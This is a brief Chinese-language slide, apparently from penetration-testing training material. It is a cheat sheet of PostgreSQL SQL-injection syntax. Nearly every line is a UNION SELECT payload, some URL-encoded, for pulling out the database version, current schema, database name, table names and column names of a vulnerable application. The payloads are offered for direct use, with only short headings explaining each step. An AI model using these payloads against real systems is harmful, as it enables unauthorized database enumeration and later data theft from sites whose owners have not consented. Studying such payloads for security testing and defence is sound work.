

# postgresql数据库注入常用语法
判断数据库版本信息
union select null,version(),null--
判断用户权限
union+select+null,current_schema(),null
判断当前数据库名称
union+select+null,current_database(),null
判断当前表名
union+select+null,relname,null from pg_stat_user_tables
读取每个表的列名
union+select+null,column_name,null+from+information_schema.columns+where+table_name='表名'